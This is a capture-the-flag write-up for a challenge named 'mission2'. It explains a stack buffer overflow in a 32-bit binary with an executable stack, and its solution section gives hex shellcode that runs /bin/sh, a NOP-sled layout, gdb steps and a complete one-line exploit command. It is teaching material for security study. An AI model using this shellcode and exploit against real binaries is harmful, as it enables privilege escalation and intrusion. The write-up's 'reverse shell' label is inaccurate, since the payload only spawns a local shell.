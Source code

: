 # mission2 ~ revers shell
## Goal and instructions
Connect to bin.chall.necst.it port 22 via SSH as user [USERNAME]. You will find the files in /home/[USERNAME]/mission2.

Your goal is to read the file flag with the privileges of the group that owns the vulnerable binary.

## compiled options
The executable program is compiled in 32bit, the stack is executable and the canary is inactive.
```
gcc -fno-stack-protector -m32 -no-pie -O0 -z execstack -o mission2 mission2.c
```
## Code overview
The code for this challenge does not specify particular constraints on the string in input and does not check the input length, ad so it is vulnerable to overflow.
However the executable will verify, in the first 128 characters of the buffer (length 180), the absence of special characters as shown in the following function:
```
void check(char* buf) {
    // 0xb = execve
    // 0x5 = open
    for (int i = 0; i < 128; i++) {
        if (buf[i] == 0x0b || buf[i] == 0x05) {
            puts("You dirty hacker!");
            exit(0);
        } 
    }        
}
```

## Solution
The exploit is a classical [reverse shell attack](https://www.imperva.com/learn/application-security/reverse-shell/), the goal is to open a shell with the same privileges as the vulnerable binary and to execute *cat flag* from that shell.
To achieve it we need to include in the buffer an assembly code to open the shell and to overwrite the saved EIP (through overflow) with the address of our assembly code.
> **note:** we can't know precisely the shell code address, we will include a NOP Sled in the buffer and point in the middle of it.

In order to write a valid exploit it is necessary to:
* Use gdb to identify the buffer address on the stack, a way to do it is to fill it with 'A' and search for 0x41 on the stack as follows.
    * Use Python to save a string with 180 'A' in a file.
        ```
        python -c "print 'A' * 180 +'BBBB' " > ./writable/input.txt
        ```
    * Open gdb and set a breakpoint just after the executable reads the input string.
    * Run the executable with the file just created as input.
    * Print the stack and take note of the address.
        ```
        x/200xb $esp
        ```
* Include shell code in the buffer (in hex), a working example is provided below:
    ```
    \xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
    ```
    > **note:** verify the shell code is short enough to overcome the check function.

* Size correctly the NOP Sled to overwrite the saved EIP, changing the number of NOP in the following code until we have write "AAAA" in EBP + 4
    ```
    python -c "print '\x90' * 147 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + 'AAAA'"  > ./writable/input.txt
    ```
* Get an address in the middle of the NOP Sled and replace 'AAAA' with it, returning from the muda() function the processor will jump in the stack executing the NOP operation and so the shell code. Following is provided the complete exploit.
    ```
    (python -c "print '\x90' * 147 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\xb0\xdd\xff\xff'"; cat - ) | env -i /home/[USERNAME]/mission2/mission2
    ```

